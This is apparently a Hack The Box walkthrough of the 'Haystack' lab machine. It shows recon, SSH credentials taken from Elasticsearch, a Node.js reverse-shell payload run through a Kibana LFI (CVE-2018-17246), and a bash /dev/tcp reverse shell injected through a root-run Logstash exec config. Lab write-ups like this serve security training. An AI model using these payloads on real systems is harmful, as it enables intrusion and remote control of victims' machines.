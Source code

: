 ## HTB: Haystack Walkthrough

---

### 🧭 Recon

#### Nmap
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.115
nmap -sC -sV -p 22,80,9200 -oA scans/nmap-scripts 10.10.10.115
```
- Open ports: 22 (SSH), 80 (HTTP), 9200 (ElasticSearch/HTTP)

#### Port 80 - Website
- Basic HTML page with image: `needle.jpg`
- `strings -n 20 needle.jpg` → revealed base64: `bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==`
- Decoded: `la aguja en el pajar es "clave"`

#### Port 9200 - ElasticSearch
```
curl http://10.10.10.115:9200/_cat/indices?v
```
- Notable indexes: `quotes`, `bank`, `api`, `.kibana`

#### Extracting sensitive strings
```
curl -s -X GET "http://10.10.10.115:9200/quotes/_search?size=1000" -H 'Content-Type: application/json' -d'{"query": {"match_all": {}}}' | jq -c '.hits.hits[]' | grep clave
```
- Found base64 encoded user and password:
```
echo dXNlcjogc2VjdXJpdHkg | base64 -d  # user: security
echo cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 -d  # pass: spanish.is.key
```

### 🐚 Shell as security
```
ssh security@10.10.10.115
```
- Successfully authenticated.
- Grab `user.txt`

### 📦 Port Forwarding to Kibana
```
ssh -L 5601:localhost:5601 security@10.10.10.115
```
- Access Kibana via: http://localhost:5601

### 🐚 Shell as kibana

#### Kibana CVE-2018-17246
- Create payload at `/dev/shm/0xdf.js`:
```js
(function(){
  var net = require("net"),
      cp = require("child_process"),
      sh = cp.spawn("/bin/sh", []);
  var client = new net.Socket();
  client.connect(443, "10.10.14.8", function(){
      client.pipe(sh.stdin);
      sh.stdout.pipe(client);
      sh.stderr.pipe(client);
  });
  return /a/;
})();
```
- Trigger LFI execution:
```
curl 'http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../dev/shm/0xdf.js'
```
- Catch reverse shell: `nc -lnvp 443`

### 🧪 Privesc: kibana → root

#### Logstash Misconfiguration
- Logstash runs as **root**
- Kibana can read `/etc/logstash/conf.d` configs

##### Relevant config snippets:
- **input.conf**: watches `/opt/kibana/logstash_*` files
- **filter.conf**: parses `Ejecutar comando: <COMMAND>`
- **output.conf**: uses `exec` plugin to run the command

##### Trigger
```
echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" > /opt/kibana/logstash_rootme
```
- Catch shell: `nc -lnvp 443`

### 🏁 Root access
```
id
cat /root/root.txt
```

---

## ✅ Summary
- Recon revealed ElasticSearch and Kibana
- Found SSH credentials via stego in ElasticSearch
- Used Kibana LFI (CVE-2018-17246) to gain shell as kibana
- Privileged escalation through Logstash input config
- Root compromise complete

---

## 🏷 Tags
`ElasticSearch`, `Kibana`, `CVE-2018-17246`, `Logstash`, `File Monitoring`, `Reverse Shell`, `HTB`, `Privilege Escalation`, `Command Injection`, `Steganography`, `SSH`

